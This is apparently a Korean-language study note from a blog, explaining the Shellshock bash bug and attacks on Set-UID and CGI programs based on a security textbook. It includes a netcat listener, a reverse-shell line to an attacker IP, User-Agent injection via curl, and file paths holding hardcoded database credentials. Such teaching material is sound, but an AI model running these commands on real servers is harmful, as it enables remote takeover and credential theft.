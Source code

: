 ```yaml
---
title: Shellshock Attack
tags: Shellshock Vulnerabilities Cybersecurity
key: page-shellshock_attack
categories: [Cybersecurity, Vulnerabilities]
author: hyoeun
mathjax: true
mathjax_autoNumber: true
---
```


## Shell이란?
* Shell이란 command-line interpreter이다. 유저와 OS사이에서 명령어들을 읽고 그것들을 실행시켜준다.
* sh, bash, csh, zsh, Windows PowerShell 등이 있다.
* 그 중 bash shell이 Linux계열에서 가장 많이 쓰인다.
* Shell 안에 존재하는 보안 취약점들을 ShellShock라고 부른다.

```shell
$ foo=' () { echo "hello world"; }'
$ echo $foo
() { echo "hello world"; }
$ declare -f foo
$ export foo
$ bash
(child):$ echo $foo

(child):$ declare -f foo
foo ()
{
    echo "hello world"
}
(child) :$ foo
hello world
```

* 여기서 foo= ' '를 해버리면 shell variable로 인식을 해버리지만 자식 bash에서는 shell function으로 작동되어 버린다.
* 그리고 { 왼쪽 오른쪽에 스페이스(```() { echo```)가 반드시 있어야지만 함수로 인식 할 수 있다.
* export 커맨드를 통해 입력된 쉘 변수는 자식 쉘에게 전달될 수 있다.
* 부모 shell에서 자식 shell로 환경변수를 전달하는 과정에서 ()이 있으면 자식 shell에게 쉘 변수가 아닌 쉘 함수로 전달한다.
* declare는 쉘 함수를 프린트 해준다.

## The Shellshock Bug

* Shellsock가 일어나는 이유는 bash 코드 안에서 parsing을 제대로 못하고 있기 때문이었다.
* 먼저 환견변수들 중에서 ```() {``` 로 시작하면 환경변수를 함수로 바꿔버린다.
```
foo='() { echo "test"; } -> foo () { echo "test"; }
```
* 환경 변수로 바꾸면서 만약 거기에 함수 정의만 있는 것이 아니라 커맨드가 있다면 그것마저 실행시켜버려서 여기서 버그가 발생하게 된 것이다.

## Shellshock Attack on Set-UID Programs

* bash shell을 호출하는 함수가 있는 프로그램이 있다면 그게 타겟 프로그램이 될 수 있다.
* 타겟 프로그램이 Set-UID Program일때 우리는 위의 버그 예제를 사용함으로써 root shell을 탈취할 수 있다.
* 이때, dash와 같은 shell이 realID와 eID가 다름으로써 환경 변수로부터 함수 변환이 안 되는 것을 방지 하지 않는 취약한 프로그램으로만 공격이 가능할 것이다.

## Shellshock Attack on CGI Programs

* Common Gateway Interface(CGI)는 웹 서버에서 다이나믹하게 웹 페이지를 생성해주는 프로그램을 돌릴 수 있게 도와주는 것이다.
* 많은 CGI가 shell script를 쓰는데 bash를 쓰는게 있다면 우리가 노리는 타겟이 된다.
* 서버쪽에서 cgi 프로그램이 아파치 서버에 요청을 하면 서버는 fork를 통해 새로운 프로세스를 실행하게 된다.
* #!/bin/bash로 시작하면 exec()가 /bin/bash를 실행하게 된다.
* 브라우저로 user-agent값을 바꿔서 보내는건 힘들기 때문에 curl로 -A 를 통해 shellshock를 일으키는게 좋고 우분투 시스템에서 대게 일반적으로 /var/www/SQL/collabtive/config/standard/config.php나 /var/www/SeedElgg/engine/settings.php 문서들을 보면 데이터베이스 아이디와 비번이 hard coding된 것을 볼 수 있다.

## Reverse Shell

* Reverse Shell이란 원격 컴퓨터에서 input output을 컨트롤 할 수 있게 해주는 shell process이다.
* netcat을 주로 쓰는데 ```$ nc -l 9090 -v```라는 명령어를 주면 9090번 포트에서 listen을 하고 있고 공격자 컴퓨터에서 이것을 먼저 실행시킨다.
* 이후 서버쪽에서 ```$ /bin/bash -i > /dev/tcp/<attacker ip>/9090 0<&1 2>&1```을 실행시켜준다.
* bash를 interactive하게 쓴다는 거고 거기의 stdout을 9090포트로 보내는데 stdout내용을 fd 0(stdin) 으로 사용하고 stderr는 stdout(fd 1)로 보내겠다는 의미이다.
* 서버에 보내는 명령어를 이전에 배운 shellshock를 통해 실행시키면 되는데 curl -A에 넣어서 보내면 된다.
* Reverse shell에서 중요한 것은 standard input, output, and error에 관한 값을 공격자의 network connection으로 redirect하는 것이다. 


## Remote Attack on PHP

* Shellshock 공격에는 다음 2가지 조건이 필요하다.
    1. invocation of bash
    1. passing of user data as environment variables
* PHP code에서 system()을 쓰고, shell 이 bash라면 1번 조건이 충족된다.
* system()을 통해서 environment variables을 user input에 의해 설정할 수 있다면 2번 조건이 충족된다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)
